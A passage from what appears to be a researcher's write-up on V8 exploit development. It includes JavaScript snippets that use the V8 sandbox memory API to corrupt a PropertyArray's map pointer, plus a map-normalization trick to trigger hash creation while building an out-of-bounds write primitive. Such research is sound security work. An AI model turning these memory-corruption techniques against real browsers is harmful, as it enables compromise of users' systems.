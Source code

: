 
Now we have another primitive:
oob write any **smi value** into field index 4(the 5th element) of a propertyarray

### failed code snippet 1
demo code using sandbox api:
```
let memory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

let dict = {};
dict.a = 1;
delete dict.a;

let dict_properties = memory.getUint32(Sandbox.getAddressOf(dict) + 4, true);
let dict_properties_map_addr = memory.getUint32(dict_properties - 1, true);

let foo = {};
foo.p1 = 1;
foo.p2 = 1;
foo.p3 = 1;
foo.p4 = 1;
foo.p5 = 1;
%DebugPrint(foo);

let properties = memory.getUint32(Sandbox.getAddressOf(foo) + 4, true);
memory.setUint32(properties - 1, dict_properties_map_addr, true);

const ws = new WeakSet();
ws.add(foo);

%SystemBreak();
```

The fixedarray set aborts in `CodeStubAssembler::FixedArrayBoundsCheck()`, it’s a CSA_CHECK, not DCHECK.
Cause we will load hash value and compare the value with kNoHashSentinel(int value 0) first,
the fixedarray load in CSA has bound check enabled by default. 
![image](https://github.com/zckevin/blog/assets/666724/ce6864c6-f6c1-4dfc-90d4-3d55cc009392)


### create hash take 2
Find that we could use map normalization to trigger hash creation:
```
function set_hash(arg) {
    let sb = {a2222222221: 1, a2222222222 : 1};
    sb.__proto__ = arg;
    delete sb.a2222222222;
}
set_hash(obj);
```
![image](https://github.com/zckevin/blog/assets/666724/d816dea9-9d16-49fd-96cb-7358d9db5d78)
